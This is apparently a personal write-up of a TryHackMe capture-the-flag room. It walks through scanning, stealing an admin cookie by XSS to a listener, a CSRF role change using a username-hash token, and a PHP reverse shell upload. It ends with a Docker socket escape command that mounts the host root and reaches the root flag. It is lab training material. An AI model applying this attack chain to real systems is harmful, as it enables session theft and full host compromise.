








# Sequence Room

nmap

```
➤ nmap -A 10.67.141.138
Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-17 20:48 -05
Nmap scan report for 10.67.141.138 (10.67.141.138)
Host is up (0.073s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 23:76:9a:34:22:fa:fe:7e:a1:8a:47:cf:bb:fc:20:a8 (RSA)
|   256 d3:e5:bd:a8:39:5e:fb:58:b7:35:43:06:d1:22:da:0c (ECDSA)
|_  256 e0:80:6a:f2:d3:73:55:2b:ce:58:58:fa:c5:ef:58:52 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Review Shop
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.23 seconds
```

Looked around no interesting stuff on pages source code.

Ffuf:

```
➤ ./ffuf -w /home/sebastian/utils/SecLists/Discovery/Web-Content/raft-large-directories.txt:FUZZ -u http://10.67.141.138/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.67.141.138/FUZZ
 :: Wordlist         : FUZZ: /home/sebastian/utils/SecLists/Discovery/Web-Content/raft-large-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

uploads                 [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 73ms]
mail                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 72ms]
javascript              [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 71ms]
phpmyadmin              [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 72ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 72ms]
```

Found interesting email at /mail

```
From: software@review.thm
To: product@review.thm
Subject: Update on Code and Feature Deployment

Hi Team,

I have successfully updated the code. The Lottery and Finance panels have also been created.

Both features have been placed in a controlled environment to prevent unauthorized access. The Finance panel (`/finance.php`) is hosted on the internal 192.x network, and the Lottery panel (`/lottery.php`) resides on the same segment.

For now, access is protected with a completed 8-character alphanumeric password (S60u}f5j), in order to restrict exposure and safeguard details regarding our potential investors.

I will be away on holiday but will be back soon.

Regards,  
Robert
```

Hit a dead end, trying XSS on the contact form:

Which lucky enough it sent the cookie to the python server:

```
➤ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.67.160.234 - - [19/Jan/2026 19:43:25] "GET /?ce=UEhQU0VTU0lEPTloYmFmMjR0dm91NmF1ZDJnYjNlN29qaHRk HTTP/1.1" 200 -
10.67.160.234 - - [19/Jan/2026 19:43:27] "GET /?ce=UEhQU0VTU0lEPTloYmFmMjR0dm91NmF1ZDJnYjNlN29qaHRk HTTP/1.1" 200 -
```

Using CyberChef to decode the cookie:

```

```

```
PHPSESSID=9hbaf24tvou6aud2gb3e7ojhtd
```

Replacing that into the browser cookie:



Hit a wall again, I tried to xss chat but I got a warning because of the payload.

I noticed something tho, if you send a link the link seems to get clicked.

Also:



CSRF does not seem to be random in the settings forms, looking into what it is:



Seems to be a Hash.

Looking in [crackstation.net](http://crackstation.net)



It seems to be the username, super safe.

Pairing this with the fact that all links seem to be clicked, I sent admin the link:



And it changed the permissions:



Mod is now admin. But the flag did not change at the top, so changed the password to login again:



And second flag.

Now, the finance page has a upload feature, and it does not filter anything you can upload a php reverse shell directly.

Edit the html of the page to load the finance.php instead of the lottery.php

Small hiccup tho, the email has the clue that the finance dashboard is running in localhost, so the uploads folder is not the one accessible publicly.

I was capturing traffic in burp so now I can repeat this request:



With the reverse shell file value, and we’ll get a RS.

Another hop tho, the root flag is nowhere to be found, it seems to be a container from 2 clues from online search:

```
root@4f18a45cca05:/var/run# cat /proc/1/sched
cat /proc/1/sched
php (1, #threads: 1)
-------------------------------------------------------------------
se.exec_start                                :       7278482.864956
se.vruntime                                  :           281.974747
se.sum_exec_runtime                          :           316.190888
se.nr_migrations                             :                  465
nr_switches                                  :                 7130
nr_voluntary_switches                        :                 7029
nr_involuntary_switches                      :                  101
se.load.weight                               :              1048576
se.avg.load_sum                              :                  147
se.avg.runnable_sum                          :               150528
se.avg.util_sum                              :               150528
se.avg.load_avg                              :                    1
se.avg.runnable_avg                          :                    1
se.avg.util_avg                              :                    1
se.avg.last_update_time                      :        7278482864128
se.avg.util_est.ewma                         :                    9
se.avg.util_est.enqueued                     :                    0
uclamp.min                                   :                    0
uclamp.max                                   :                 1024
effective uclamp.min                         :                    0
effective uclamp.max                         :                 1024
policy                                       :                    0
prio                                         :                  120
clock-delta                                  :                   43
mm->numa_scan_seq                            :                    0
numa_pages_migrated                          :                    0
numa_preferred_nid                           :                   -1
total_numa_faults                            :                    0
current_node=0, numa_group_id=0
numa_faults node=0 task_private=0 task_shared=0 group_private=0 group_shared=0

root@4f18a45cca05:/var/run# cat /proc/1/cgroup
cat /proc/1/cgroup
13:misc:/docker/4f18a45cca05232d430063339b8a79a33bebeb9f06b64f29a0bc5b6b21d25d18
12:pids:/docker/4f18a45cca05232d430063339b8a79a33bebeb9f06b64f29a0bc5b6b21d25d18
11:hugetlb:/docker/4f18a45cca05232d430063339b8a79a33bebeb9f06b64f29a0bc5b6b21d25d18
10:cpu,cpuacct:/docker/4f18a45cca05232d430063339b8a79a33bebeb9f06b64f29a0bc5b6b21d25d18
9:freezer:/docker/4f18a45cca05232d430063339b8a79a33bebeb9f06b64f29a0bc5b6b21d25d18
8:blkio:/docker/4f18a45cca05232d430063339b8a79a33bebeb9f06b64f29a0bc5b6b21d25d18
7:rdma:/docker/4f18a45cca05232d430063339b8a79a33bebeb9f06b64f29a0bc5b6b21d25d18
6:perf_event:/docker/4f18a45cca05232d430063339b8a79a33bebeb9f06b64f29a0bc5b6b21d25d18
5:memory:/docker/4f18a45cca05232d430063339b8a79a33bebeb9f06b64f29a0bc5b6b21d25d18
4:devices:/docker/4f18a45cca05232d430063339b8a79a33bebeb9f06b64f29a0bc5b6b21d25d18
3:cpuset:/docker/4f18a45cca05232d430063339b8a79a33bebeb9f06b64f29a0bc5b6b21d25d18
2:net_cls,net_prio:/docker/4f18a45cca05232d430063339b8a79a33bebeb9f06b64f29a0bc5b6b21d25d18
1:name=systemd:/docker/4f18a45cca05232d430063339b8a79a33bebeb9f06b64f29a0bc5b6b21d25d18
0::/docker/4f18a45cca05232d430063339b8a79a33bebeb9f06b64f29a0bc5b6b21d25d18
```

/proc/1/sched → Says php

/proc/1/cgroup → Has a lot of dockers

Stuck again, had to look into writeup <https://www.youtube.com/watch?v=looyfVGX_yU>

From /var/run/docker.sock

```
root@4f18a45cca05:/var/run# ls
ls
adduser
dbus
docker.sock
lock
log
sendsigs.omit.d
shm
systemd
user
```

They say we can infer this is running docker in socket and this is dangerous. I have to agree because I can do docker commands???

```
root@4f18a45cca05:/var/run# docker ps
CONTAINER ID   IMAGE           COMMAND                  CREATED        STATUS       PORTS     NAMES
4f18a45cca05   phpvulnerable   "docker-php-entrypoi…"   7 months ago   Up 2 hours   80/tcp    phpVulnerable
```

Command and explanation from ChatGPT:

```
docker run -v /:/host --privileged -it phpvulnerable chroot /host

### `docker run`
Creates and starts a new container from an image.

### `-v /:/host`
A **bind mount**: it mounts the host’s root directory `/` into the container at `/host`.

So from inside the container, `/host/etc`, `/host/home`, `/host/var`, etc. are literally your host’s real files.

### `--privileged`
This is the big one. It:
- grants the container **nearly all Linux capabilities** (bypassing a lot of Docker’s isolation),
- lifts many security restrictions (AppArmor/SELinux/seccomp constraints may be reduced depending on config),
- typically gives access to host devices via `/dev` (e.g., raw disks, kernel interfaces).

In practice, `--privileged` makes the container much closer to “processes running on the host” than a normal container.

### `-it`
- `-i`: keep stdin open
- `-t`: allocate a pseudo-TTY

So you get an interactive terminal session.

### `phpvulnerable`
The image name to run.

### `chroot /host`
Inside the container, instead of running the default command, it runs `chroot /host`.

`chroot` changes the process’s apparent root directory to `/host`. Since `/host` is the host’s `/`, this means:

- the process now sees the **host filesystem as `/`**
- commands you run after that operate against the host’s paths (`/etc/passwd`, `/root`, `/var/log`, etc.)

So you’re essentially “stepping into” the host’s filesystem namespace from within the container.
```

Now the result:

```
root@4f18a45cca05:/# python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@4f18a45cca05:/# ls
ls
bin   dev  home  lib64  mnt  proc  run   srv  tmp  var
boot  etc  lib   media  opt  root  sbin  sys  usr
root@4f18a45cca05:/# docker run -v /:/host --privileged -it phpvulnerable chroot /host
</:/host --privileged -it phpvulnerable chroot /host
# ls
ls
bin   dev  home  lib32  libx32      media  opt   root  sbin  srv  tmp  var
boot  etc  lib   lib64  lost+found  mnt    proc  run   snap  sys  usr
# cd root   
cd root
# ls
ls
 bin   flag.txt   lib   root   share   snap  '~'
# cat flag.txt
cat flag.txt
THM{rootAccessD0n3}
```
